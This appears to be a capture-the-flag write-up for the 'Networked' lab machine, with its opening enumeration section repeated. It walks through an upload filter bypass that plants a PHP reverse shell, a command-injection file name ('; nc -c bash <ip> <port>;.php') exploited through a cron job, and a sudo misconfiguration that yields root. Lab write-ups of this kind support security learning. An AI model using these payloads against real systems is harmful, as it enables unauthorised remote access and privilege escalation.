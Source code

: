 # Networked

## Network Enumeration

we first scan the machine for open ports we notice a web server on port 80 

![NmapScan](nmap_scan.png)

# Networked

## Network Enumeration

we first scan the machine for open ports we notice a web server on port 80 

![NmapScan](nmap_scan.png)

## Web Fuzzing

we search for subdonmain using ffuf we find a directory called backup , download the backup.tar folder we find the src code for the web application, on the upload.php we find a vector for an arbitrary file upload attack

![upload.php](UploadSrcCode.png)

we then navigate to the upload directory intercept an upload request using Burpsuite and modify it to to pass the whitelisting check , and to upload the reverse shell file [reverseShell](https://github.com/pentestmonkey/php-reverse-shell)

![uploadReq](uploadReq.png)

run netcat on the attacker machine 
```
nc -lvnp 4444
```
when we request the reverse shell we uploaded we will receive our connection .
## Lateral movement

the user we have rce as doesn't have the permission to view user.txt

checking the file named crontab.guly we find that check_attack.php is run every 3 mins and when checking the file one line stands out 
![check_attack](check_attack.png)
the program runs every 3 mins checks for malicious programs and deletes them , however , it run the command without checking for malicious input , we can exploit this by running the following 
```
nc -lvnp 4444 # on attacker machine

cd /var/www/html/uploads
touch -- '; nc -c bash <ip> <port>;.php'
```

we shortly get a shell as guly and we can find the user flag in the home directory 

---
## Privilege Escalation

#### misconfigured sudo 

checking for sudo cabipalities for thus user we found the following
![sudo_misconfig](sudo.png)
we view the file , we have no writing rights and it belongs to root 
![sudofile](sudofile.png)
the program takes what input we add and inputs it into a file then adds EOF after we finish, after a google search i found the following [exploit](https://seclists.org/fulldisclosure/) so to exploit we simply have to add a space then bash
![escalation](escalation.png)
then the program it is written to we get a shell as root where we found the root flag